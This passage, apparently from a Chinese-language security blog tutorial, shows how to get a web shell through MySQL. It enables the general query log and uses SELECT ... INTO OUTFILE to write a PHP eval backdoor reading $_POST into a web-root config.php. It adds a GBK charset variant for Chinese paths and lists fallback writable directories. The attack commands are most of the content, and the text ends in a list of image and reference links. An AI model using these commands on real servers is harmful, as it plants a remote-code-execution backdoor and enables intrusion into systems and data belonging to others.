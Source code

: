 ```
show variables  like  '%general%';
```

![][8]

开启`general`时，所执行的`sql`语句都会出现在**\*\*\***.log 文件。

那么，如果修改`general_log_file`的值，所执行的`sql`语句会生成`shell`

开启日志读写:

```
SET GLOBAL general_log='on'
```

![][9]

### 其他权限

`magic_quotes_gpc`：开启时，会对'单引号进行转义，使其变成`\`反斜杠。

## getshell

### 常规 getshell

需要的条件是：

- 当前的数据库用户有写权限
- 知道 web 绝对路径
- web 路径能写

使用:

```
select '<?php @eval($_POST[soap]);?>' into outfile 'C:\\phpstudy\\PHPTutorial\\WWW\\config.php';
```

![][10]

注意，如果是在`phpmyadmin`的`sql`语句中执行写入的话，路径只能是斜杠/或者双反斜杠\\

如果报错提示`Can't create/write to file 'xxx/xxx/xxx.php' (Errcode: 13)`

证明目录不可写，可以尝试网站下其他目录， 如:

- /upload
- /templates
- /cache

写入中文路径`shell`:

```
set character_set_client='gbk';set character_set_connection='gbk';set character_set_database='gbk';set character_set_results='gbk';set character_set_server='gbk';select '<?php eval($_POST[soap]);?>' into outfile 'C:\\phpStudy\\WWW\\测试\\config.php';
```


[1]: https://img.soapffz.com/archives_img/2020/02/13/archives_20200213_111241.png
[2]: https://img.soapffz.com/archives_img/2020/02/13/https://img.soapffz.com/archives_img/2020/02/13/archives_20200213_112857.png
[3]: https://img.soapffz.com/archives_img/2020/02/13/archives_20200213_125442.png
[4]: https://img.soapffz.com/archives_img/2020/02/13/archives_20200213_132709.png
[5]: https://img.soapffz.com/archives_img/2020/02/13/archives_20200213_131046.png
[6]: https://img.soapffz.com/archives_img/2020/02/13/archives_20200213_131258.png
[7]: https://img.soapffz.com/archives_img/2020/02/13/archives_20200213_131352.png
[8]: https://img.soapffz.com/archives_img/2020/02/13/archives_20200213_130356.png
[9]: https://img.soapffz.com/archives_img/2020/02/13/archives_20200213_130718.png
[10]: https://img.soapffz.com/archives_img/2020/02/13/archives_20200213_133321.png
[11]: https://img.soapffz.com/archives_img/2020/02/13/archives_20200213_134455.png
[12]: https://img.soapffz.com/archives_img/2020/02/13/archives_20200213_134522.png
[13]: https://img.soapffz.com/archives_img/2020/02/13/archives_20200213_135233.png
[14]: https://img.soapffz.com/archives_img/2020/02/13/archives_20200213_135252.png
[15]: https://img.soapffz.com/archives_img/2020/02/13/archives_20200213_142449.png
[16]: https://img.soapffz.com/archives_img/2020/02/13/archives_20200213_143545.png
[17]: https://mp.weixin.qq.com/s/9Tkcn2AtGrHUsIbRCQ-ZSQ
[18]: https://mp.weixin.qq.com/s/Y1ZtcQ-VuIh89RDcYoD3hQ
[19]: https://mp.weixin.qq.com/s/IWjGPQ155kZnUxh5fjb1RQ
[20]: https://www.freebuf.com/articles/web/226240.html